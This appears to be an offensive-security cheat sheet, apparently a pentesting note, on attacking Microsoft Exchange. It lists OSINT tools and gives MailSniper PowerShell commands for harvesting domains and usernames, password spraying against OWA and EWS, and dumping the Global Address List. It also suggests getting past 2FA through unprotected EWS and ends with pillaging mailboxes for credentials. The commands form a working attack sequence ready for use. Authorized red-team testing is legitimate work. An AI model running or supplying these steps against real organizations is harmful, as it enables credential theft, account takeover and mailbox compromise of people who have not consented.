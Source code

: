 ````
- Collect e-mail adresses, usernames, passwords, get the email/user account naming scheme with tools such as:
  - https://github.com/mschwager/fierce
  - https://www.elevenpaths.com/innovation-labs/technologies/foca
  - https://github.com/lanmaster53/recon-ng
  - https://github.com/leebaird/discover
  - https://github.com/laramies/theHarvester

#### Domain name discovery
- https://github.com/dafthack/MailSniper
```
Invoke-DomainHarvestOwa -ExchHostname <EXCH HOSTNAME>
Invoke-DomainHarvestOwa -ExchHostname <EXCH HOSTNAME> -OutFile <POTENTIAL_DOMAINS.TXT> -CompanyName "TARGET NAME"
```
- Internal Domain name may be found inside a SSL Certificate

#### Name scheme fuzzing
- Create a username list from the OSINT
- Could use https://github.com/dafthack/EmailAddressMangler to generate mangled username list
```
Invoke-EmailAddressMangler -FirstNamesList <TXT> -LastNameList <TXT> -AddresConvention fnln | Out-File -Encoding ascii possible-usernames.txt
```

- https://gist.github.com/superkojiman/11076951
```
/opt/namemash.py names.txt >> possible-usernames.txt
```

#### Username Enumeration
- https://github.com/dafthack/MailSniper
```
Invoke-UsernameHarvestOWA -Userlist possible-usernames.txt -ExchHostname <EXCH HOSTNAME> -DOMAIN <IDENTIFIED INTERNAL DOMAIN NAME> -OutFile domain_users.txt
```

#### Password discovery
- https://github.com/dafthack/MailSniper
```
Invoke-PasswordSprayOWA -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname <EXCH HOSTNAME> -Userlist domain_users.txt -Password <PASSWORD> -Threads 15 -Outfile ews-sprayed-creds.txt
```

#### Global Address List (GAL) Extraction
- https://els-cdn.content-api.ine.com/09f3f35f-6f69-4a9d-90be-d13046e692c0/index.html#
```
Get-GlobalAddressList -ExchHostname <EXCH HOSTNAME> -UserName <DOMAIN>\<USER> -Password <PASSWORD> -Verbose -OutFile global-address-list.txt
```
- Then you could spray passwords again to get access to more mail accounts!

#### Bypassing 2fa
- Can check by server responses if supplied password is correct or not.
- Most 2FA vendors do not cover all available Exchange protocols. Owa might be protected but EWS might not be!

```
# Access through EWS
Invoke-SelfSearch -Mailbox <MAIL ADDRESS> -ExchHostname <DOMAIN NAME> -remote
```

#### Spreading the compromise
- Pillaging mailboxes for credentials/sensitive data
````